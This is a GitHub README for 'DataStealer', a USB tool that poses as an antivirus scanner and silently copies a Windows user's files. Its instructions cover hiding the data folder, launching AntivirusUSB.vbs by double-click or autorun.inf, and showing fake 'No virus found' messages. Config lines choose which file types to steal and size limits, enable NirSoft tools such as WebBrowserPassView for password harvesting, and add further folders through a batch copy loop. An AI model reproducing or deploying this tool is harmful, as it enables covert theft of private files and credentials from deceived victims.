 # DataStealer

## Download
[Releases](https://github.com/Kevinsillo/datastealer/releases)

## Information
DataStealer is a simple funcionality for USB device (fake Antivirus USB) to gather user information in Windows systems.

## Intructions
Just copy all from DataStealer folder and paste in USB device. Hide **"data"** folder. When you conect USB device in Windows system just doble click in AntivirusUSB.vbs and DataStealer copy all files stealthily from pc.

***NOTE: You can use autotun.inf for auto-execute .vbs file but it only works in Windows Vista and Windows XP.***

[**Autorun.inf**](wikipedia.org/wiki/AutoRun "Wikipedia")
>[AutoRun]
>
>Open=AntivirusUSB.vbs

## Configuration
You can change diferents values in **data\run.bat** and **AntivirusUSB.vbs**.

## AntivirusUSB.vbs

**Change messages** 
>x=msgbox("Analyzing USB device for searching virus." ,64, "Antivirus USB - Info") [WINDOWS TEXT]
>
>x=msgbox("No virus found." ,64, "Antivirus USB - Info") [WINDOWS TEXT]

## data\run.bat

**Add or remove formats of steal files**
>set formats=*.jpg *.png *.mp4 *.3gp *.wav

**Enable or disable file theft and sizes (kilobyte)**
>set stealfiles=**true / false** [DEFAULT TRUE]
>
>set sizemax=**50000**
>
>set sizemin=**100**

**Enable or disable Nirsoft software**
>set nirsoft=**true / false** [DEFAULT FALSE]
>
>set soft=**[names of Nirsoft software files]** [DEFAULT EMPTY]

**NirSoft** web site provides a unique collection of **small and useful freeware utilities**, all of them developed by **Nir Sofer**. Go to **[nirsoft.net](www.nirsoft.net)**, download software and put in "data/soft/" folder. Later add names in value with spaces.

***Example:***
>set soft=**SkypeLogView WebBrowserPassView ...**

### Folders (Advanced Users)
If you want you can add lines with more folders in **"run.bat"** for gather information.

***Like this:***
>FOR /R **"%userprofile%\Pictures\"** %%a IN (%formats%) DO (copy /y "%%a" "%%#:\data\capt\%USERNAME%\")

Replace **"%userprofile%\Pictures\"** for any folder from Windows.
